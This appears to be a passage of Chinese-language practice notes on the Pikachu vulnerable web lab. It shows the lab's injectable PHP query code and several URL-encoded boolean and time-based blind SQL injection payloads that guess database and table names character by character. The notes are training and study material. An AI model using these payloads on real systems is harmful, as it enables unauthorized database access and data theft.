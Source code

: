 ![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220621222957-kyd3y2u.png)

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220621224746-j8x2ufb.png)

```sql
name=vince'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()))%3d1%23 //猜表长度

name=vince'+and+ascii(substr((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),1,1))%3d112%23 //猜表名
```



## 时间瞒注

关键代码

```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理，直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型，需要考虑闭合
    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述
//     $result=execute($link, $query);
//    $html.="<p class='notice'>i don't care who you are!</p>";
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断
            $html.="<p class='notice'>i don't care who you are!</p>";
        }
    }else{

        $html.="<p class='notice'>i don't care who you are!</p>";
    }
}
```

从代码可以看出，无论对与错都只会输出`i don't care who you are!`

`name=vince'+and+if(length(database())>1,sleep(5),1)%23`// 如果数据库长度大于1，会延迟5秒返回结果，前提是数据库必须有vince这个用户才行，不然无法查询成功。

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220628210418-mawqopg.png)

`name=vince'+and+if(substr(database(),1,1)%3d'p',sleep(5),1)%23`// 猜数据库名

或者使用ascii,配合bp的爆破模块，结合logger++插件来进行时间瞒注，这方法不太准，大量请求可能消耗服务器资源影响响应速度

`?name=vince'+and+if(ascii(substr(database(),2,1))%3d106,sleep(2),1)%2`

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220628215855-p3omjnn.png)

```sql
?name=vince'+and+if(ascii(substr((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),1,1))%3d104,sleep(5),1)%23 //猜表命
```
